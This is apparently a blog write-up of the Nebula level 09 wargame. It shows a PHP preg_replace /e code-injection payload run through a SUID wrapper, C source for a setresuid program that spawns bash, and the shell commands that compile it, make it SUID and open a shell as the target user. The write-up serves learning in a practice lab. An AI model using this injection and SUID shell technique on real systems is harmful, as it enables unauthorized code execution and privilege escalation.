 ```yaml
---
title: "Exploit Exercises - Nebula 09"
date: "2011-12-10T05:46:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - injection
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-09.html"
 - "/2011/12/10/exploit-exercises-nebula-09"
---
```


Challenge 09 gave me the most issues out of any other challenge so far.  This may just be because I haven't touched PHP since version 3 was just coming out.  However, it is based on a dangerous function, known as [preg_replace()](http://php.net/manual/en/function.preg-replace.php).  There are several more dangerous functions, some of which can be seen [here](http://stackoverflow.com/questions/3115559/exploitable-php-functions). 

<!-- more -->

The challenge starts by giving us the source code of the program we will be exploiting. 

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

What I noticed immediately, was that the program accepted 2 arguments, but never used the second one, other than to pass it into the "markup" function as "$use_me".  This seemed odd, so I figured it had to do something with that.  I also thought at first that the "spam" function was never being called, but then noticed it in quotes on the first line of "preg_replace" statements.  I had to look this function up, and find out that it would evaluate the code at run-time.  This means that I needed to inject code into that call to "spam()". 

I tried doing some basic injection to try to get something equivelent to it calling: 

```
spam("");system("/bin/bash");print("");
```

However this never worked, because of the [PCRE modifiers](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) built into PHP.  They automatically will escape single and double quotes, as well as backticks (at least according to the docs).  I spent <b>hours</b> trying to inject various strings to get some sort of code execution. 

Somewhere along the line, I read a page (sorry I can't seem to find it again) where they mentioned using an alternative syntax to the backreferences in preg_replace.  So instead of using \\2, you could use ${2}.  This is covered slightly on the [preg_replace](http://php.net/manual/en/function.preg-replace.php) php function reference.  What that reference doesn't show, is that you can apparently have that not just reference parameters, but any variable in the code.  After tinkering a while, I settled on a pattern.  I created a file named, /tmp/level09.txt 

```
[email {${`$use_me`}}]
```

Firstly, I had to start with "[email " and end with "]" to get it into this regex at all.  Because of the PCRE modifiers, I used back-ticks, because in researching them, I ran across a [blog post](http://www.madirish.net/node/437) saying that back-ticks were able to bypass them somehow.  So with variable expansion, and the PCRE modifier bypass, this should let me inject some code into the function. 

Because running a "system()" or "exec()" method in the php caused me problems with interactivity, I opted to use commands that required no interaction at run-time.  I again used my /tmp/bash_id.c file from challenge 07: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

I then would call the compiled SUID version of the php file with 2 parameters.  The first would be the text file I wanted to parse, and the second would be the commands I wanted to run, which would get inserted into the $use_me variable. 


```
level09@nebula:/home/flag09$ ./flag09 /tmp/level09.txt "gcc -o /home/flag09/bash_id /tmp/bash_id.c;chmod +s,a+rwx /home/flag09/bash_id"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1
```

This compiled my bash_id.c source file to the flag09 user's home directory, and marked it SUID.  I ignored the PHP Notice, since I knew I was tinkering. 

After making sure the bash_id program did get created properly, I just needed to call it with the userid of flag09 as the first parameter. 

```
level09@nebula:/home/flag09$ ./bash_id `cat /etc/passwd | grep flag09 | cut -d : -f 3`
flag09@nebula:/home/flag09$ getflag
You have successfully executed getflag on a target account
```

This apparently worked, so I ran the "getflag" command as usual, marking completion of this challenge.  This was by far the most guessing I've had to do on any of the challenges so far.  I really hope that I don't get stuck soon, leaving me unable to continue on.
